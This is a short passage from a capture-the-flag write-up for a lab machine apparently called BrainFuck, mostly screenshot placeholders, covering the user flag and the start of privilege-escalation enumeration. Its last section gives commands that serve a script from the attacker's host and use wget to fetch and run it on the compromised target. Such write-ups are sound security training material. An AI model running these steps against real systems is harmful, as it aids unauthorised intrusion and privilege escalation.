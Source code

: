 ![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2038.png)

# User Flag

From there, we can easily find the user flag:

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2039.png)

# Root Flag

To start enumeration for privilege escalation, we can set up a simple http server:

```python
python3 -m http.server 9000
```

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2040.png)

And use wget from our shell to retrieve our linux smart enumeration script and give it execution rights, and run it:

```python
wget http://10.10.17.90:9000/lse.sh
chmod +x lse.sh
./lse.sh
```
